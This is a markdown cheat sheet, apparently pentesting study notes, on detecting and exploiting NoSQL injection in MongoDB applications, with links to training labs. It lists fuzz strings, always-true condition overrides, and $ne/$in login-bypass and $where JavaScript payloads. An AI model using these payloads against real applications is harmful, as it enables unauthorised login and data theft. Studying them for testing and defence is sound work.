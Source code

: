 # NoSQL Injections

## Detecting NoSQL Injections in MongoDB
Test the following strings by submitting them where you think a MongoDB statement is used on the backend:
	- ```'"\`{```
	- ```;$Foo}```
	- ```$Foo \xYZ```
These strings try to break the MongoDB syntax and should result in a different response then what is expected.

### If Submitting Fuzz Strings as JSON Use The Following Instead
```'\"\`{\r;$Foo}\n$Foo \\xYZ\u0000```

### Confirming Conditional Behavior
After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements:
`' && 0 && 'x` and `' && 1 && 'x`

### Overriding Existing Conditions
Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`

 You could also add a null character after the target value `'%00`. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored

## NoSQL Operator Injection
### Availalble Operators
- `$where`
- `$ne` (not equal)
- `$eq` (equal)
- `$in` (followed by an array)
- `$regex`
- `$lt` (less than)
- `$gt` (greater than)

### Example Payloads
#### JSON Format
```json
{
	"username": { "$ne": "invalid" }
}
```
```json
{
	"username": { "$in" : ["admin", "administrator", "superuser", "superadmin"] }
	"password": { "$ne" : "invalid" }
}
```
#### Form URL Encoded Format
`username[$ne]=invalidusername&password[$ne]=invalidpassword`

### Injecting Javascript With "$where"
If NoSQL injection is possible then we might be able to inject JS code using the "$where" property
Ex: To enumerate the properties of `Object` we can use the following. [Review the solution of this portswigger lab](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)
`"$where": "Object.keys(this)[1].match('^.{}.*')"`

## Extra Resources
- [Portswigger NoSQL Injection](https://portswigger.net/web-security/nosql-injection)
- [Intigriti Guide to NoSQL Injection](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-nosql-injection-nosqli-vulnerabilities)
